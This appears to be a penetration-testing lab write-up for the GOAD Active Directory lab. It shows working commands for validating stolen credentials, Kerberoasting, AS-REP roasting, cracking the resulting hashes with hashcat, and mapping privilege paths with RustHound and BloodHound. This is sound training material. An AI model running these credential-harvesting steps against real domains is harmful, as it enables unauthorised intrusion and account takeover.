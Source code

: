 ```yaml
---
title: GOAD - Digging Deeper 
date: 2022-11-16 12:00:00
categories: [AD,GOAD]
tags: [goad]
---
```


# Description

In this blog post we will use the infos which we discovered in [GOAD - Enumeration](https://blog.kindel.it/posts/GOAD-Enumeration/)  to dig deeper and gather more data about our target and if we are lucky we're gonna find something valuable 

# User Account

We discovered a user account on our basic enumeration that had it's password documented in the desciption. Let's see if it helps us to uncover new details.

## Check validity

Creds: `north.sevenkingdoms.local/samwell.tarly:Heartsbane`

```bash
cme smb 192.168.56.11 -u 'samwell.tarly' -p 'Heartsbane'
# Validity confirmed by our matching DC  
# ldapsearch should also work and leaves, as far as I'm aware, a smaller footprint
```

# More User Enum

## Kerberoasting

To get a list of kerberoastable accounts of the domain `north.sevenkingdoms.local` we will use the credentials of `samwell.tarly`

```bash
# Obtaining the hashes
impacket-GetUserSPNs 'north.sevenkingdoms.local/samwell.tarly:Heartsbane' -outputfile loot_2/kerberoastable.txt
# Cracking hashes using hashcat
hashcat -m 13100 -a 0 -o loot_2/kerb_cracked.txt loot_2/kerberoastable.txt /usr/share/wordlists/rockyou.txt
# Managed to crack a password jon.snow:iknownothing
```

## Asreproasting

Another option to get our hands on crackable hashes is to check for asrep roastable accounts.  
You could either:
- Check every known account
- Only check those indicated as vulnerable by [Bloodhound](https://github.com/BloodHoundAD/BloodHound)

```bash
# Let's check every account that's currently known to us
impacket-GetNPUsers north.sevenkingdoms.local/ -usersfile loot/north.users.formatted.txt
# brandon.stark has set "DontReqPreAuth"
# Let's crack the hash
hashcat -m 18200 -a 0 -o loot_2/asrep_cracked.txt loot_2/asreproast.txt /usr/share/wordlists/rockyou.txt
# Successfull: brandon.stark:iseedeadpeople
```

# Bloodhound

Let's collect some infos about the domain `north.sevenkingdoms.local` and objects using [Rusthound](https://github.com/OPENCYBER-FR/RustHound). Feel free to use bloodhound-python or any other way you know :)

## Rusthound

Rusthound doesn't collect as much infos as sharphound but should be enough for this blog post

```bash
# Domain north.sevenkingdoms.local
rusthound -d north.sevenkingdoms.local -u 'samwell.tarly@north.sevenkingdoms.local' -p 'Heartsbane' -o ./loot_2/bloodhound -z
# Domain: sevenkindgoms.local
rusthound -d sevenkingdoms.local -u 'samwell.tarly@north.sevenkingdoms.local' -p 'Heartsbane' -o ./loot_2/bloodhound -z
# Domain: essos
FAILED
```

## Visualize

Start neo4j and [Bloodhound](https://github.com/BloodHoundAD/BloodHound)

```bash
sudo neo4j start
# --disable-gpu-sandbox should fix a bug when Bloodhound isn't starting
.jon/BloodHound --disable-gpu-sandbox
```

## Findings

Using [Bloodhound](https://github.com/BloodHoundAD/BloodHound) and it's features we are able to identify a couple of things right away.  
This could help us reduce the noice within the domain as we don't have check every account that we know. We would be able to just retrieve the infos for those three and don't request infos for any other account.

### Kerberoastable Accounts
* sql_svc
* jon.snow

### ASREP Roastable Users
- brandon.stark

### Path to High Value Targets

We owned three users so far `samwell.tarly`, `brandon.stark`,  `jon.snow`. Let's look around in [Bloodhound](https://github.com/BloodHoundAD/BloodHound) and enumerate groups and special permissions that are associated to those accounts.

**Permissions Matrix**

| User          | Groups                                                 | Special                      |
| ------------- | ------------------------------------------------------ | ---------------------------- |
| samwell.tarly | Domain Users, Night Watch                              |                              |
| brandon.stark | Domain Users, Stark, Remote Desktop Users              |                              |
| jon.snow      | Domain Users, Night Watch, Stark, Remote Desktop Users | Constrained Delegation -> DC |

According to our research which we conducted jon.snow is a high value user. We are able to use his credentials to open a remote desktop session and can probably abuse his constrained delegation privileges

![jonsnow-deleg](/assets/img/goad/jonsnow-deleg.png)

In our next blog post we will start pwning systems using our so far collected credentials and get more infos for [Bloodhound](https://github.com/BloodHoundAD/BloodHound).  
